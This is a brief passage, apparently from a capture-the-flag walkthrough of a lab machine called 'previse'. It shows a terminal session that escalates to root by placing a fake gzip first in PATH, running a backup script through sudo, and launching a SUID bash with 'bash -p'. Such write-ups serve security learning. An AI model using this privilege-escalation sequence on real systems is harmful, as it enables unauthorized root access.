 ```bash
m4lwhere@previse:~$ chmod +x gzip 
m4lwhere@previse:~$ ls
gzip  user.txt
m4lwhere@previse:~$ export PATH=$(pwd):$PATH
m4lwhere@previse:~$ echo $PATH
/home/m4lwhere:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh                                                                                                                                                                                     
m4lwhere@previse:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
m4lwhere@previse:~$ bash -p
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) groups=1000(m4lwhere)
```
and we have a root shell
